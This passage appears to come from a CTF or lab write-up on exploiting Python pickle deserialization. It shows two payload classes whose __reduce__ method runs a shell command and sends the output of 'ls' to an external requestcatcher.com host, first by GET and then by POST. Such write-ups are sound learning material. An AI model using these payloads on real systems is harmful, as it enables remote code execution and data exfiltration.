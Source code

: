Finally my payload worked thanks to help of tushar bhaiya 🎉🥳

Now I needed to get terminal commands output to be sent through request catcher so I tried this payload for the same

```python
class RCE2:
    def __reduce__(self):
        cmd = "python3 -c \"import os;import requests;requests.get(f'https://skjeks.requestcatcher.com/{os.popen('ls').read()}')\""
        return os.system, (cmd,)
```

But this url was not working I was not recieving any request related to same after trying a different ways thinking that ls might not be in the webserver including `echo *` etc.

But none worked so I again turned for help from tushar bhaiya I contacted them and got to know that the data consisting of\n and other charcter might cause problem on being sent through request catcher for which he suggest to me send the request through post request

For which I created the following payload

```python
class RCE2:
    def __reduce__(self):
        cmd = "python3 -c \"import os;import requests;requests.post(f'https://skjeks.requestcatcher.com/',data={1:os.popen('ls').read()})\""
        return os.system, (cmd,)

```
